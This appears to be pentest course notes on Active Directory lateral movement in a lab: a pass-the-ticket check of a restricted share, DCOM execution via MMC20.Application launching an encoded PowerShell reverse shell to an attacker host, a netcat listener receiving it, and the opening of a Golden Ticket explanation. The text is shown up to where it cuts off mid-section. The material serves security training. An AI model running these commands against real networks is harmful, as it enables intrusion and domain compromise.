 ```shell
        Kdc Called:
```

We notice that the _dave_ ticket has been successfully imported in our own session for the _jen_ user. Let's confirm we have been granted access to the restricted shared folder.

```shell
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```

#### DCOM (Spawn a shell from an elevated PS)

From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the _GetTypeFromProgID_ method.

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","172.16.228.14"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

Switching to our Kali machine, we can verify any incoming connections on the listener that we simultaneously set up.

```bash
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 50778

PS C:\Windows\system32> whoami
corp\jen

PS C:\Windows\system32> hostname
FILES04
```

#### Golden Ticket (With krbtgt hash we can create our TGTs)

Returning to the explanation of Kerberos authentication, we'll recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This secret key is actually the password hash of a domain user account called _krbtgt_.[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/lateral-movement-in-active-directory/active-directory-persistence/golden-ticket#fn1)


[192.168.50.73]: PS C:\Users\jen\Documents> whoami